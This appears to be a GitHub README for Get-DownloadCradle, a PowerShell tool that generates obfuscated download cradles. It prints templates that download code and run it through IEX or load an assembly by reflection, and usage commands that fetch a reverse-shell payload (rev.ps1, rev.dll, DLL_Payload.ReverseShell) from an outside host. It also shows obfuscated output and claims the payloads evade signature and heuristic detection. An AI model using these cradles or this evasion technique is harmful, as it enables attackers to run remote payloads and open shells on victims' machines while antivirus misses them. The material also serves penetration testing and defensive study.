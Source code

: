 # Obfuscated PowerShell Download Cradles

Get-DownloadCradle is a project that stems from the [Invoke-PSObfuscation](https://github.com/gh0x0st/Invoke-PSObfuscation) framework, with the sole purpose of producing obfuscated download cradles for PowerShell. With the way this framework is built, each component of the original payload goes through a randomly selected generator, resulting in a different yield with every execution of this script. 

Due to the complexity of the obfuscation logic, the resulting payloads will be very difficult to signature and will slip past heuristic engines that are not programmed to emulate the inherited logic.

## Cradle Templates

This script includes templates for three PowerShell download cradles, namely `DownloadString`, `DownloadFile` and `DownloadData`. The resulting payloads are output as a one liner, but have been split below for readability. 

__DownloadString__

```powershell
$WebClient = New-Object System.Net.WebClient
$WebClient.DownloadString("<DOWNLOADPATH>") | IEX
```
__DownloadFile__

```powershell
$WebClient = New-Object System.Net.WebClient
$WebClient.DownloadFile("<DOWNLOADPATH>","<LOCALPATH>")
$Assem = [System.Reflection.Assembly]::LoadFile("<LOCALPATH>")
$Class = $Assem.GetType("<CLASSNAME>")
$Method = $Class.GetMethod("<METHODNAME>")
$Method.Invoke(0,$null)
```

__DownloadData__

```powershell
$WebClient = New-Object System.Net.WebClient
$Data = $WebClient.DownloadData("<DOWNLOADPATH>")
$Assem = [System.Reflection.Assembly]::Load($Data)
$Class = $Assem.GetType("<CLASSNAME>")
$Method = $Class.GetMethod("<METHODNAME>")
$Method.Invoke(0,$null)
```

## Requirements

This script was built and tested on the following version Kali Linux and PowerShell. The obfuscated cradles are compatible on Windows systems that support PowerShell newer than version 2.0

```shell
┌──(kali㉿kali)-[/home/kali]
└─PS> $PSVersionTable

Name                           Value
----                           -----
PSVersion                      7.2.4
PSEdition                      Core
GitCommitId                    7.2.4
OS                             Linux 5.18.0-kali5-amd64 #1 SMP PREEMPT_DYNAMIC Debian 5.18.5-1kali6 (2022-07-07)
Platform                       Unix
PSCompatibleVersions           {1.0, 2.0, 3.0, 4.0…}
PSRemotingProtocolVersion      2.3
SerializationVersion           1.1.0.1
WSManStackVersion              3.0
```

## Usage Examples

To load the script on Kali Linux, open a terminal then run `pwsh`. With PowerShell now running in your terminal, you can load the script into your current session by dot sourcing the script.

```shell
┌──(kali㉿kali)-[~]
└─$ pwsh
PowerShell 7.2.4
Copyright (c) Microsoft Corporation.

https://aka.ms/powershell
Type 'help' to get help.

┌──(kali㉿kali)-[/home/kali]
└─PS> . ./Get-DownloadCradle.ps1
```

With the script loaded into our PowerShell session, we need to run the `Get-DownloadCradle` function and supply the cradle type and accompanying information to inject into the payload.

__DownloadString__

`Get-DownloadCradle -DownloadString -DownloadPath http://192.168.49.80/rev.ps1`

__DownloadFile__

`Get-DownloadCradle -DownloadFile -DownloadPath http://192.168.49.80/rev.dll -LocalPath C:\rev.dll -Class DLL_Payload.ReverseShell -Method runner`

__DownloadData__

`Get-DownloadCradle -DownloadData -DownloadPath http://192.168.49.80/rev.dll -Class DLL_Payload.ReverseShell -Method runner`

__Output to File__

`Get-DownloadCradle -DownloadData -DownloadPath http://192.168.49.80/rev.dll -Class DLL_Payload.ReverseShell -Method runner -OutFile obfuscated.ps1`

__Show Changes__

Where this script has been built from `Invoke-PSObfuscation`, we have the ability to target specific script components vs all of them at the same time. In addition to this, if we wanted to learn more about what was obfuscated, we can include the `ShowChanges` parameter. This will instruct the script to display each targeted component, the obfuscated value that will be replacing it and the generator value that was used. 

```shell
──(kali㉿kali)-[/home/kali]
└─PS> Get-DownloadCradle -DownloadData -DownloadPath http://192.168.49.80/rev.dll -Class DLL_Payload.ReverseShell -Method runner -ShowChanges

     >> Layer 0 Download Cradle
     >> https://github.com/gh0x0st

    Generator 2 >> http://192.168.49.80/rev.dll >> $([char](51+104-51)+[char](0+116-0)+[char](0+116-0)+[char](0+112-0)+[char](30+58-30)+[char](0+47-0)+[char](73*47/73)+[char](25*49/25)+[char](45+57-45)+[char](58+50-58)+[char](102+46-102)+[char](0+49-0)+[char](78*54/78)+[char](113*56/113)+[char](26*46/26)+[char](18*52/18)+[char](69*57/69)+[char](98*46/98)+[char](15*56/15)+[char](24*48/24)+[char](0+47-0)+[char](48+114-48)+[char](118*101/118)+[char](0+118-0)+[char](0+46-0)+[char](0+100-0)+[char](45*108/45)+[char](0+108-0))
    Generator 3 >> DLL_Payload.ReverseShell >> $($($('D'+'L'+'L'+'_'+'P'+'a'+'y'+'l'+'o'+'a'+'d'+'.'+'R'+'e'+'v'+'e'+'r'+'s'+'e'+'S'+'h'+'e'+'l'+'l')))
    Generator 3 >> runner >> ($($('r'+'u'+'n'+'n'+'e'+'r')))
    Generator 2 >> System.Net.WebClient >> $([char](0+83-0)+[char](76+121-76)+[char](118+115-118)+[char](98+116-98)+[char](91*101/91)+[char](2*109/2)+[char](105*46/105)+[char](0+78-0)+[char](51*101/51)+[char](0+116-0)+[char](23+46-23)+[char](0+87-0)+[char](0+101-0)+[char](0+98-0)+[char](111+67-111)+[char](54*108/54)+[char](0+105-0)+[char](52+101-52)+[char](42*110/42)+[char](0+116-0))
    Generator 2 >> New-Object >> & ([string]::join('', ( (78,101,119,45,79,98,106,101,99,116) |%{ ( [char][int] $_)})) | % {$_})
    Generator 5 >> | >> |<##>%{$_}|
    Generator 11 >> | >> |ForEach-Object{$_}|ForEach-Object{$_}|
    Generator 2 >> $WebClient >> $rOG6V9jBlcgSL3DnfKy1vs
    Generator 3 >> $Data >> $MH6VTazWPsQbu8z
    Generator 3 >> $Assem >> $SIsYjqGeX8bayA2nuPRC
    Generator 3 >> $Class >> $fD
    Generator 2 >> $Method >> $5osQqa0YTMZIUt6Vu9D
```
